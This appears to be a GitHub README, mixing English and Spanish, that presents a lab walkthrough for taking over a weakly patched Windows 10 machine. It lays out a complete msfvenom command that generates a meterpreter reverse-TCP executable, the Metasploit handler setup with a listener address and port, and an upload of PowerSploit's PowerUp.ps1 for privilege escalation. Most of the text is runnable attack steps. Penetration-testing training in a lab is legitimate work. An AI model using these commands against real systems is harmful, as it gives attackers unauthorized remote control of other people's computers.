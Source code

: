 # Tools Para Vulnerar Sistemas
## SMB-Folder
---
Exploit Client-Side Vulnerabilities and Establish a VNC Session
Attackers use client-side vulnerabilities to gain access to the target machine. VNC (Virtual Network Computing) enables an attacker to remotely access and control the targeted computers using another computer or mobile device from anywhere in the world. At the same time, VNC is also used by network administrators and organizations throughout every industry sector for a range of different scenarios and uses, including providing IT desktop support to colleagues and friends and accessing systems and services on the move.

This lab demonstrates the exploitation procedure enforced on a weakly patched Windows 10 machine that allows you to gain remote access to it through a remote desktop connection.

Here, we will see how attackers can exploit vulnerabilities in target systems to establish unauthorized VNC sessions using Metasploit and remotely control these targets.

```java

msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=[IP Address of Host Machine] LPORT=444 -o /root/Desktop/Test.exe
```

> LHOST Corresponde al IP REMOTA donde se va contectar la shell reversa



Type msfconsole and press Enter to launch the Metasploit framework.

In msfconsole, type use exploit/multi/handler and press Enter.



Now, set the payload, LHOST, and LPORT. To do so, use the below commands:

Type set payload windows/meterpreter/reverse_tcp and press Enter
Type set LHOST 10.10.10.13 and press Enter
Type set LPORT 444 and press Enter
After entering the above details, type exploit and press Enter to start the listener.

despues ejecutamos el arhivo exploit desde windows 



Now, type upload /root/PowerSploit/Privesc/PowerUp.ps1 PowerUp.ps1 and press Enter. This command uploads the PowerSploit file (PowerUp.ps1) to the target system’s present working directory.